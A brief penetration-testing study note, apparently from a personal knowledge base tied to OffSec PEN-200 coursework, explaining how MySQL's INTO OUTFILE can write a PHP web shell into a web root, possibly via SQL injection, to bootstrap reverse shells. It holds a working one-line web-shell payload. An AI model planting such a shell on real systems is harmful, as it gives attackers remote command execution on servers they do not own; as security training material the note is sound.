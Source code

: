 # Exploiting MySQL

**author**:: Nathan Acks  
**date**:: 2022-08-03

You can "upload" reverse shells using MySQL using `INTO OUTFILE`:

```sql
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/cmd.php';
```

The path may require some brute-forcing or additional reconnaissance; sometimes you can force an error to return a (potentially) writeable path. Depending on how the application you're attacking is configured, it may be possible to exploit this via SQLi.

This can be used to bootstrap reverse shells.

* [2022-08-03 — OffSec Live: PEN-200 & AWS Deep Dive](../log/2022-08-03-offsec-live-pen-200-and-aws-deep-dive.md)
* [SQL Injection](sql-injection.md)
